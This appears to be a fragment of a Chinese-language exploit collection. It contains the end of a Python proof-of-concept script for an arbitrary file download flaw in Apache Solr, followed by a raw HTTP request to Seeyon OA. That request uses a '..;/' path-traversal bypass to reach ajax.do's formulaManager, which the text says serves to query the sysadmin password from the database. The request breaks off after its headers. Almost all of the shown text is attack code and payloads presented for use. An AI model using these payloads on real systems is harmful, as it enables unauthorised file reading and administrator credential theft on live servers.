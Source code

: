
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Solr 任意文件下载漏洞POC.')
    parser.add_argument('-u',"--url",
                        help='solr attack target', required=True)
    parser.add_argument('-a', '--action',
                        help='file or url', required=True)
    args = parser.parse_args()
    print("[+] check {} ,action:get {}".format(args.url, args.action))
    result = run(args.url, args.action)
    if result is None: print("[-] Not found vuln")
    print("[+] The result is as follows:\n{}".format(result))
```

使用 Payload 查询数据库中 sysadmin 的密码

```
POST /seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip HTTP/1.1
Host: 127.0.0.1
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
loginPageURL=; login_locale=zh_CN;
Content-Type: application/x-www-form-urlencoded
